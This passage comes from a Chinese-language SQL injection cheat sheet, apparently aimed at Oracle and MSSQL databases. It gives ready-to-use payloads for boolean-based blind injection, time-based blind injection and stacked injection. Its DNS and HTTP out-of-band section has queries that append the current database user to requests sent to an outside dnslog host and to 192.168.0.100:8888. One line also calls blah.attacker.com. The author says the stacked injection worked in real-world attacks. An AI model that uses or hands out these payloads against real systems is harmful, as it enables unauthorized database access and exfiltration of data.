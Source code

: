 ```sql
SELECT *  FROM t1 where rownum&lt;5 AND 1=1 AND 1=if(len(user)=6,1,0) ORDER BY id DESC;
SELECT *  FROM t1 where rownum&lt;5 AND 1=1 AND 1=(case when len(user)=4 then 1 else 0 end) ORDER BY id DESC;
SELECT *  FROM t1 where rownum&lt;5 AND 1=1 AND 1=decode(len(user),6 ,1,0) ORDER BY id DESC;
SELECT *  FROM t1 where rownum&lt;5 AND 1=1 AND 1=IFNULL(len(user)=6,0) ORDER BY id DESC;
SELECT *  FROM t1 where rownum&lt;5 AND 1=1 AND 1=NULLIF(len(user)=6,0) ORDER BY id DESC;
```

## 0x08 时间盲注

```sql
sleep(n)				-- 休眠n秒，不能和select 一起用，语法错误，失去价值
exec  sleep 5		-- 延时5s
dbms_pipe.receive_message((&#39;a&#39;),2)				-- 可以延时

SELECT UTL_INADDR.get_host_name(&#39;10.0.0.1&#39;) FROM dual; 		-- 如果反查很慢，可能可以
SELECT UTL_INADDR.get_host_address(&#39;blah.attacker.com&#39;) FROM dual; 		-- 如果正查很慢
SELECT UTL_HTTP.REQUEST(&#39;http://google.com&#39;) FROM dual; 		-- 如果发送TCP包被拦截或者很慢
```
实际过程中时间盲注很难起到作用。测试发现，结合布尔判断时，无论True/False，都会造成延时。

## 0x09 DNS外带注入

需要用户可访问网络的权限

如果数据长度太长，如数据库版本，可能会导致出错，这时候要使用带外，就可以使用substr()函数来截取字符串，每次取几个特定的字符即可

**发送DNS请求，DNS外带**：

```sql
SELECT UTL_INADDR.get_host_address(&#39;google.com&#39;) FROM dual;   -- priv
SELECT UTL_INADDR.get_host_address((select user)||&#39;.xxx.dnslog&#39;);

SELECT UTL_HTTP.REQUEST(&#39;http://google.com&#39;) FROM dual;
SELECT UTL_HTTP.REQUEST(&#39;http://xxx.dnslog?&#39;||(select user)) from dual;
select utl_http.request(&#39;http://192.168.0.100:8888/?&#39;||(select user)) from dual;
```

## 0x0A 堆叠注入

在靶场中没成功，提示`表不存在`，但是在实战中成功过。

### 10.1 结合DNS外带

结合DNS外带注入，成功获取到数据。
